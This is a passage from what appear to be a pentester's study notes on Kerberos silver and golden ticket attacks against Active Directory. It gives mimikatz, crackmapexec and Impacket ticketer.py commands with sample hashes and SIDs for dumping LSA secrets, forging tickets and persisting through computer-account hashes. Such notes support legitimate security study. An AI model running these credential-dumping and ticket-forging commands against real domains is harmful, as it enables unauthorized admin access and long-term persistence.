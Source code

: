 ```
mimikatz> “kerberos::golden /admin:LukeSkywalker /id:1106 /domain:lab.adsecurity.org /sid:S-1-5-21-1473643419-774954089-2222329127 /target:adsmswin2k8r2.lab.adsecurity.org /rc4:d7e2b80507ea074ad59f152a1ba20458 /service:cifs /ptt” exit
```
##### Crackmapexec & [Impacket's](https://github.com/SecureAuthCorp/impacket) [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py)
###### Dump LSA Using Domain Account and NTLM Hash:
`crackmapexec smb 10.0.2.0/24 -d LIFELINE.local -u mmeow -H aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b --lsa`
![[Pasted image 20250417164627.png]]
> Note: A password may be used in place of the hash.
###### Create Silver Tickets: 
Requirements:
- SPN for the service we want to access
- Domain name
- Computer NTLM hash
- Domain Controller IP address
- Domain SID
- Domain User account to impersonate

**Creating our Silver Ticket with ticketer.py:**
```
ticketer.py -spn HOST/WORKSTATION4.LIFELINE.local -domain LIFELINE.local -nthash 3c0ca92a8fa19374d19bf887543a5e19 -dc-ip  
10.0.2.7 -domain-sid S-1-5-21-3010306422-4235424541-3945354764 <domain user>
```
Our silver ticket file located in Administrator.ccache is now saved on our machine and we can start using it with tools supporting Kerberos authentication, without being prompted for authentication. Using the following command, we can tell [Impacket](https://github.com/SecureAuthCorp/impacket "(opens in a new window)") (among other tools) to use our Silver Ticket for Kerberos authentication.

`export KRB5CCNAME=Administrator.ccache`
[8](https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel)
#### Silver Ticket Required Parameters
- `/target` – the target server’s FQDN.
- `/service` – the kerberos service running on the target server. This is the Service Principal Name class (or type) such as cifs, http, mssql.
- `/rc4` – the NTLM hash for the service (computer account or user account)
#### Silver Ticket Default Groups:
- Domain Users SID: S-1-5-21-513
- Domain Admins SID: S-1-5-21-512
- Schema Admins SID: S-1-5-21-518
- Enterprise Admins SID: S-1-5-21-519
- Group Policy Creator Owners SID: S-1-5-21-520
#### Persistence With Computer Accounts
Once the attacker has access to the computer account password hash, the account can be used as a “user” account to query Active Directory, but the more interesting use case is to create Silver Tickets to access computer hosted services with admin rights. Since the Domain computer account password change policies are more of a guideline since they aren’t forced to change by the Domain Controllers (set to 30 days by default but up to the computer to actually change the password), it’s possible that once an attacker gains knowledge of the computer account password, it could be used for a long time. Active Directory does not prevent a computer account from accessing AD resources even if the computer account password hasn’t changed in years.
